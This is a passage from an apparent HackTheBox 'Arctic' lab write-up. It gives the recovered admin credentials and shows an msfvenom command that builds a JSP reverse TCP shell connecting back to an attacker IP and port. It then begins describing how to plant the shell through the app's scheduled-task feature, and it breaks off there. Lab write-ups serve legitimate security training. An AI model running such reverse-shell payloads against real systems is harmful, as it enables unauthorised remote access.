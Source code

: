 ![image3](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Arctic/images/3.png)

So the password is ```happyday```, we can use it now to login. Note: The user is ```admin```.

Let's now generate our shell:
```
┌──(kali㉿kali)-[~/Desktop/HTB/Arctic]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.28 LPORT=4444 > Z0ldyck.jsp
Payload size: 1497 bytes
```

Let's scheduled our task by going here:

![image4](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Arctic/images/4.png)

And then click on ```Schedul New Task```, you should get somthing like this:
